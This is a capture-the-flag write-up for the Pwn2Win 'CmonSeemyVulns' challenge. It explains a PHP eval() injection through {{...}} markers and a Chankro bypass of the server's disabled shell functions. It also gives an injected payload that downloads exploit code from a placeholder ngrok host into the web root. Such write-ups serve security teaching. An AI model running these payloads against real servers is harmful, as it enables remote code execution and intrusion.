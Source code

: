 # [Pwn2Win] CmonSeemyVulns writeup

# Description:

![2021-05-30_21-03](https://user-images.githubusercontent.com/84577967/120118699-267d5280-c194-11eb-8fae-0fec1de1b704.png)

We are given source code with the Dockerfile.

[c_mon_see_my_vulns_70097e678d572b03e8098868191037f5c3518ca4a8d0512573845db8a293a153.tar.gz](https://github.com/ab2pentest/ctfwriteups/files/6566856/c_mon_see_my_vulns_70097e678d572b03e8098868191037f5c3518ca4a8d0512573845db8a293a153.tar.gz)

# Code Review:

![2021-05-30_20-54](https://user-images.githubusercontent.com/84577967/120118712-31d07e00-c194-11eb-9ca7-dea97992fbed.png)

Snipped code from: index.php (Only PHP Part !)

```php
<?php

function do_calcs($csv){
  preg_match_all("/{{([^}]*)}}/", $csv, $matches); # Line: 4
  
  foreach ($matches[1] as &$val){
    $csv = str_replace("{{" . $val . "}}", eval("return " . $val . ";"), $csv); # Line: 7
  }

  return $csv;
}

/* main */
if ($_SERVER['REQUEST_METHOD'] == "POST"){
  if (isset($_POST['csv'])){
    // do the math calculations
    $csv = trim(do_calcs($_POST['csv'])); # Line: 17
    $csv = str_replace("\r\n", "\n", $csv); // replace CRLF to LF

    $result = csv_parse($csv);
    print_r($result);
  }
  else{
    die("Missing param csv");
  }
}

?>
```

So in the 7th line we have an eval inside a function `do_calcs` that has been called in the line 17 ! 
But first we have to check the 4th line where we have the regex pattern so our php code must be inside `{{PHP EVAL CODE}}`

# Solution:

If we tries to send something like `200,{{phpinfo()}}` its going to be executed !

![2021-05-30_21-11](https://user-images.githubusercontent.com/84577967/120118671-fdf55880-c193-11eb-9db9-0f1846e00f00.png)

But what I noticed is disable functions

```
exec,system,passthru,shell_exec,escapeshellarg,escapeshellcmd,proc_close,proc_open,dl,popen,show_source,posix_kill,posix_mkfifo,posix_getpwuid,posix_setpgid,posix_setsid,posix_setuid,posix_setgid,posix_seteuid,posix_setegid,posix_uname,pcntl_exec,expect_popen
```

For such situations I always use Chankro => https://github.com/TarlogicSecurity/Chankro

First Let's build our payload:

```bash
python2 chankro.py --arch 64 --input shell.sh --path /var/www/html --output exploit.txt
```

The shell.sh content:

```
#!/bin/sh
/readflag > /var/www/html/flag.txt
```

Great! Now let's start a webserver using PHP or Python and move our exploit.txt to it and go directly to exploitation ...

```
200,{{file_put_contents("/var/www/html/exploit.php",file_get_contents("http://XXXXXXXXX.ngrok.io/exploit.txt"),FILE_APPEND)}}
```

After that we can browser the file http://127.0.0.1:1337/exploit.php

And will get easily our http://127.0.0.1:1337/flag.txt
